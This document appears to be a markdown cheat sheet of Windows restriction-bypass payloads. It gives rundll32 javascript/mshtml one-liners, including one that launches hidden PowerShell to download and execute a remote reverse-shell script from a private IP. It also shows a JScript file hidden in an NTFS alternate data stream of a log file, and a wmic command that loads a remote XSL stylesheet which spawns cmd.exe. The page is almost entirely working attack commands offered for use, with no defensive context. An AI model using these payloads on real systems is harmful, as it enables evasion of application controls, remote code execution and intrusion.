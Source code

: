 # Bypass Restrication

### Bypass Windows Restriction

##### Loads and runs dynamic-link libraries (DLLs)

#### payload -1

```powershell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";alert("nooranet")
```

#### payload -2

```powershell
rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");
```

#### payload -3

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -w 1 -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.46/rshell.ps1');")
```

#### payload -4

```powershell
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

### javascript

Test.js

```javascript
var shell = new ActiveXObject("WScript.Shell"); 
var res = shell.Run("cmd.exe");
```

- Type test.js > splunk.log:test.js
- cscript splunk.log:test.js

### XSL Transform

Test.xsl

```xml
<?xml version='1.0'?>
<stylesheet version="1.0" xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace"> 
<output method="text"/>
<ms:script implements-prefix="user" language="JScript"> 
<![CDATA[ 
var r = new ActiveXObject("WScript.Shell"); 
r.Run("cmd.exe"); 
]]> </ms:script> 
</stylesheet> 
```

- wmic process get brief /format:"http://192.168.1.46/test.xsl
